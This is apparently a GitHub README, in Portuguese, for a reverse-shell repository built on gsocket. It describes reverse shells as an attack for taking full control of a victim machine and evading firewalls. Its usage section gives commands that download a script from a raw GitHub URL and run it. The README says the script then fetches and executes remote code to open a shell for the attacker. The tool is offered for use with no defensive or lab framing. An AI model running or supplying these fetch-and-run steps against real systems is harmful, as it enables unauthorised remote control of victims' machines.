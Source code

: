 # Shell Reverso
![reverse-shell-1024x333](https://github.com/user-attachments/assets/7e5f5e5e-c7c3-4545-a0e9-ea1cfa534438)
Uma shell reversa é uma técnica de ataque onde a máquina vítima se conecta de volta à máquina do atacante, permitindo que o atacante execute comandos remotamente. A vítima geralmente inicia a conexão de saída, que pode passar despercebida por firewalls ou sistemas de segurança, pois é a máquina alvo quem "chama" o atacante. Esse tipo de ataque é utilizado para obter controle total sobre a máquina comprometida.
Este repositório contém um script que estabelece uma shell reversa com gsocket. Quando executado, o script baixa um arquivo de uma URL específica e executa o código, permitindo ao atacante acessar remotamente o sistema da vítima. A saída do script é redirecionada para output.txt,
O Gsocket permite que duas estações de trabalho em diferentes redes privadas se comuniquem entre si. Por meio de firewalls e por meio de NAT - como se não houvesse firewall
## Uso e Instalação
```bash
wget https://raw.githubusercontent.com/Freitaszkb/Shell-Reverso/refs/heads/main/gsocket.py
python3 gsocket.py
cat output.txt
```

![bandicam 2025-01-09 02-41-57-136](https://github.com/user-attachments/assets/303d977b-71e1-4974-a3ac-7ff91f49096f)

